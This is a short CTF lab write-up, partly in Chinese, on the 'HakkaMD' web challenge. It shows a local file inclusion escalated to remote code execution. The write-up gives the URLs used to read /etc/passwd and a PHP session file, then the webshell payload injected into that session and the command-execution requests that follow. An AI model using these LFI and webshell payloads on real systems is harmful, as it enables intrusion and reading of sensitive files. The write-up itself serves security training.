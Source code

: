 # Simple Web 0x07(Lab - `HakkaMD`)
###### tags: `NTUSTWS` `CTF` `Web`
Challenge: http://h4ck3r.quest:8401

## Background
[資安這條路-Local File Inclusion](https://ithelp.ithome.com.tw/articles/10241555)

## Exploit - LFI to RCE
1. First things first, the website has `LFI` problem
`http://h4ck3r.quest:8401/?module=/etc/passwd`
![](https://i.imgur.com/Efl4E0c.png)
2. <font color="FF0000">**通靈**</font>
It provided `phpinfo()` so that we can check the save address of session.
![](https://i.imgur.com/SO727sY.png)
The setting is default, thus we can use `LFI` to read session file:
`http://h4ck3r.quest:8401/?module=/tmp/sess_0qvmvnk5lh140239e6ol9l16h1`
![](https://i.imgur.com/AiLGZJA.png)
We can see that session file store the data of what we enter. Therefore, we could enter `webshell` to get shell
4. `webshell`
`<?php system($_GET['sh']); ?>`
↓
`http://h4ck3r.quest:8401/?module=/tmp/sess_2f0dilri9ju4553th2bkclefal&sh=ls%20/`
↓
![](https://i.imgur.com/kqlIf6z.png)
↓
`http://h4ck3r.quest:8401/?module=/tmp/sess_2f0dilri9ju4553th2bkclefal&sh=cat%20/flag_aff6136bbef82137`
4. Then we got flag!!!